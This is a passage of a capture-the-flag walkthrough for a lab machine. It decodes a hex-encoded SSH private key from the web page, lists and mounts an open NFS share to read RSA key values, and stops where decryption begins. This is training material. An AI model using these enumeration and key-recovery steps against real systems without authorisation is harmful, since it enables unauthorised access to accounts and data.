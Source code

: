 ## Get the SSH private key

Browsing the main web page reveals a hex string that we can easily decode:

~~~
$ curl -s http://10.10.229.86/ | html2text > code.txt
$ cat code.txt | xxd -r -p
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
2367 2367 2367 2367 2367 9709 [REDACTED] 2367 2367 2367 2367
~~~

There is no `robots.txt` file. Let's try with dirsearch.

## Get the Decryption key

there is a NFS server running on port 2049. Let's check the remote shares:

~~~
$ showmount -e 10.10.229.86
Export list for 10.10.229.86:
/var/failsafe *
~~~

Now, let's mount:

~~~
$ sudo mkdir /mnt/nfs
$ sudo mount -t nfs 10.10.229.86:/var/failsafe /mnt/nfs
$ ls -la /mnt/nfs/
total 12
drwxr--r--. 2 nobody nobody 4096 Jan 30 17:31 .
drwxr-xr-x. 4 root   root   4096 Jun 11 18:12 ..
-rw-r--r--. 1 root   root     62 Jan 30 17:31 rsa_keys
$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
~~~

We can assume the following values:
* public key pair: (e, n)
* private key pair: (d, n)

Meaning that we have:
* e = 23
* n = 37627
* d = 61527

## Decrypt the SSH private key

Now,let's decrypt the SSH key, using this online calculator (https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html).
